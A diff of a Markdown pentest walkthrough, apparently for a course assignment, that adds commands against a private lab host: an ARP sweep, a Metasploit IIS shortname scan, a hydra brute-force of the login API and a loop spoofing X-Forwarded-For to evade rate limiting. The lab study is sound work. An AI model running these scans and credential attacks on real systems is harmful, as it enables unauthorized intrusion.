

Before and after one commit to danielquinti/csai-assignment-2025, a Markdown page: resources/step_by_step.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/resources/step_by_step.md
+++ b/resources/step_by_step.md
@@ -14,6 +14,9 @@ First, verify the target via ARP and execute a full port scan to identify expose
 # Host discovery via ARP (bypassing ICMP blocks)
 nmap -sn 192.168.56.137 -PR
 
+# Host discovery via local network ARP sweep (alternative)
+arp-scan -I eth1 --localnet
+
 # Full TCP port scan with Version Detection
 nmap -sS -sV -p- -T4 192.168.56.137 -v
 ```
@@ -29,6 +32,9 @@ nikto -h https://192.168.56.137 -ssl
 
 # Enumerate hidden directories / backend endpoints
 ffuf -u https://192.168.56.137/backend/api/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,401,403,500 -p 1.0 -k -s
+
+# Vulnerability Scanning via Metasploit (IIS Shortname)
+msfconsole -q -x "use auxiliary/scanner/http/iis_shortname_scanner; set RHOSTS 192.168.56.137; set RPORT 443; set SSL true; run; exit"
 ```
 
 ---
@@ -47,6 +53,18 @@ curl -k -X POST https://192.168.56.137/backend/api/auth/login \
 for i in {1..7}; do
   curl -s -k -X POST https://192.168.56.137/backend/api/auth/login \
        -H "Content-Type: application/json" \
+       -d '{"username":"admin","password":"wrongpassword"}'
+  echo ''
+done
+
+# Demonstrate Rate Limiting False Positives with Automated Tools
+hydra -l admin -p Password1! 192.168.56.137 -s 443 https-post-form "/backend/api/auth/login:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:H=Content-Type\: application/json:F=AUTH_FAILED"
+
+# Bypass Rate Limiting by spoofing source IP
+for i in {1..7}; do
+  curl -s -k -X POST https://192.168.56.137/backend/api/auth/login \
+       -H "Content-Type: application/json" \
+       -H "X-Forwarded-For: 1.2.3.$i" \
        -d '{"username":"admin","password":"wrongpassword"}'
   echo ''
 done
````
Also changed, not shown: resources/audit_report.md (+50 -0 lines).
